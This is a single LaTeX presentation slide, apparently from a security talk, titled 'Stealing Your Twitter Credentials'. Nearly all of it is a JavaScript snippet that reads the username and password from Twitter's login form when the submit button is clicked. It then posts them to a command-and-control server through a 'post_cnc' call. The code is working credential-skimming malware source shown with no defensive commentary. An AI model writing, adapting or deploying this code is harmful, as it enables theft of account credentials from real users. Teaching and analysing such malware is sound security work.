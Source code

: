 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{Stealing Your Twitter Credentials}
  \begin{center}
    \begin{tcolorbox}[title=twitter.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function get_user_pass(){
	      try {
            let username = document.getElementsByClassName('js-username-field email-input js-initial-focus')[0].value;
            let password = document.getElementsByClassName('js-password-field')[0].value;
		    let data = {
			  "auth": {
				timestamp: Date.now(),
				user: username,
				pass: password,
				site: "twitter.com"
			  }
		    };
		    return data;
	      } catch(error){
		    return false;
	      }
        }
        let class_twitter = 'submit EdgeButton EdgeButton--primary EdgeButtom--medium';
        document.getElementsByClassName(class_twitter)[0].addEventListener('click', function(){
          try {
            post_cnc(get_user_pass(), function(data){return true;});
            return true;
          } catch(error){
            return false;
          }
        });
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
